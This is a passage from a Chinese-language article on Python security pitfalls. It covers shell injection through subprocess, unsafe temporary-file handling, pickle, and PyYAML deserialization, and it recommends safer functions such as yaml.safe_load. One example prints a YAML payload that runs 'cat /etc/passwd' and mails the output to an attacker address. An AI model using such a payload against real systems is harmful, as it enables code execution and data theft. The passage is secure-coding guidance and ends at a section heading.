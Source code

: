 显然更安全的做法就是将外壳关键字保持在其默认的虚假状态，并且提供一个命令向量和子进程函数参数，这样就可以不引用 UNIX 外壳执行外部命令。在第二次的调用形式中，外壳程序不会扩展其参数或是指令。

```
  &gt;&gt;&gt; from subprocess import call
   &gt;&gt;&gt;
   &gt;&gt;&gt; call(['/bin/ls', '/tmp'])
```

如果应用程序的性质决定必须使用 UNIX 外壳服务，那么保证一切子流程没有多余的外壳功能可以被恶意用户加以利用是十分重要。在较新的 Python 版本中，标准库中的 shlex.quote 函数可以应对外壳逃逸。

<br>

**临时文件**

虽然只有对临时文件的不当使用才会引起编程语言故障，但是在 Python 脚本中存在惊人的相似情况，所以还是值得一提的。

这种漏洞可能会导致对文件系统访问权限的不安全利用，其中可能会涉及到中间步骤，最终导致数据机密性或完整性的安全问题。一般问题的详细描述可以在 CWE 377中找到。

幸运的是，Python 附带的标准库中有临时文件模块，它会提供可以"以最安全的方式"创建临时文件名称的高级函数。不过 tempfile.mktemp 执行还是有缺陷的，因为库的向后兼容性问题仍然存在。还有一点，那就是永远不要使用 tempfile.mktemp 功能，而是在不得不使用文件的时候使用临时文件、TemporaryFile 或 tempfile.mkstemp 。

意外引入一个缺陷的另一种可能性是使用 shutil.copyfile 函数。这里的问题是该目标文件可能是以最不安全的方式创建的。

精通安全的开发人员可能会考虑首先将源文件复制到随机的临时文件名称，然后以最终名称重命名临时文件。虽然这可能看起来像是一个好主意，但是如果由 shutil.move 函数执行重命名就还是不安全的。问题就是，如果临时文件没有创建在最终文件存储的文件系统，那么 shutil.move 将无法以原子方式 （通过 os.rename) 移动它，只会默认将其移动到不安全的 shutil.copy。解决办法就是使用 os.rename 而不是 shutil.move os.rename，因为这注定没办法跨越文件系统边界。

进一步的并发隐患就是 shutil.copy 无法复制所有文件元数据，这可能会导致创建的文件不受保护。

不仅限于 Python，所有的语言中都要小心修改远程文件系统上的文件类型。数据一致性保证往往会很据文件访问序列化的不同而产生差异。举例来说，NFSv2 不承认开放系统调用的 O_EXCL 标示符，但这是创建原子文件的关键。

<br>

**不安全的反序列化**

存在许多数据序列化方法，其中Pickle的具体目的是序列化 Python 对象。其目标是将可用的 Python 对象转储到八位字节流以供存储或传输，然后将其重建到另一个 Python 实例。重建步骤本身就存在风险，因为这可能会导致序列化的数据被篡改。Pickle的不安全性是公认的，Python 文档中也明确指出了。

作为一种流行的配置文件格式，YAML 有时候也被看作一种强大的序列化协议，能够诱骗反序列化程序执行任意代码。更危险的是 Python-PyYAML 事实上默认 YAML 执行看似无害的反序列化︰

```
&gt;&gt;&gt; import yaml
   &gt;&gt;&gt;
   &gt;&gt;&gt; dangerous_input = """
   ... some_option: !!python/object/apply:subprocess.call
   ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
   ...   kwds: `{`shell: true`}`
   ... """
   &gt;&gt;&gt; yaml.load(dangerous_input)
   `{`'some_option': 0`}`
```

建议的修复方法就是永远都使用 yaml.safe_load 来处理你不能信任的 YAML 序列化。尽管如此，考虑其他序列化库倾向于使用转储/加载函数名称来满足类似用途，当前的PyYAML 默认还是感觉有点挑衅意味。

<br>

**模块化引擎**
